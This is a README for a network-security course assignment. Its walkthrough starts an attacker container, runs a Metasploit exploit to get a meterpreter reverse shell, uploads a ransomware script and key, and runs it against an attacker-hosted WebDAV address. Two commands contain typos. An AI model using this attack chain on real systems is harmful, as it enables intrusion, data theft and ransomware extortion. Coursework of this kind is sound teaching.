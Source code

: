 # Netsec

Practical assignment #2 for Network Security

## Running
```sh
nix run .#run
```
Gets you into the VM. Once there:

```sh
sudo sh setup.sh
sudo nixos-container start attacker
sudo nixos-container login attacker
# now inside attacker container
mkdir victim/
rclone webdav victim/ --addr :8080
sudo msfconfolse --defer-module-load -r preload.rc # to get into metasploit
# inside metasploit
exploit
# inside the meterpreter reverse shell
upload bash/ransom.sh bash/pk.pem /
cd /
shell
sh ransom/sh 10.0.0.100:8080
# ransomware started!

```

